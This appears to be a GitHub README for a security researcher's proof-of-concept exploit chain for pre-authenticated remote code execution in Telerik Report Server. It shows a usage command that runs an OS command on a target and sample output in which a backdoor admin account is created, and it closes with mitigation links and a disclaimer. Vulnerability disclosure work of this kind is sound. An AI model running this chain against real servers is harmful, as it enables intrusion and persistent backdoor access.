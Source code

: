 # CVE-2024-4358 / CVE-2024-1800
Telerik Report Server deserialization and authentication bypass exploit chain for CVE-2024-4358/CVE-2024-1800


## Technical Analysis
[A root cause analysis of the vulnerability can be found on my blog
](https://summoning.team/blog/progress-report-server-rce-cve-2024-4358-cve-2024-1800/
)
![poc](poc.gif)


## Summary
<p align="center">
  <img src="/report server.jpg" />
</p>

# Supported versions?

Basically all of them at the time the exploit was published, for future references, every major/minor versions in the below list:
```
2012
2017
2018
2019
2020
2021
2022
2023
2024
```

## Usage
```plaintext
python CVE-2024-4358.py --target http://192.168.253.128:83 -c "whoami"

(^_^) Progress Telerik Report Server pre-authenticated RCE (CVE-2024-4358/CVE-2024-1800) || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)
(*) random backdoor username: oelycslyun
(*) random backdoor password: cqgnacxljo
(*) Attempting to bypass authentication
(+) Authentication bypass was successful, backdoor account created
(+) Saving credentials to credentials.txt
(+) Successfully authenticated as oelycslyun with password cqgnacxljo
(*) got token: zfCch_LNv0PyKfe7eBDYKXV70IOotwNQ2p82aX-JHIMCisVnTW9PWWYUKljhcRw5alubNOg_gXoHT6-hJk4VO-jGZuzmisLIi5A
(*) Generated random report name: qvwdycugmc
(*) Creating malicious report under name qvwdycugmc
(*) Deserialization exploit finished

```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://docs.telerik.com/report-server/knowledge-base/registration-auth-bypass-cve-2024-4358

## Follow Us on Twitter for the latest security research:
*  [SinSinology](https://twitter.com/SinSinology)
*  [SummoningTeam](https://twitter.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

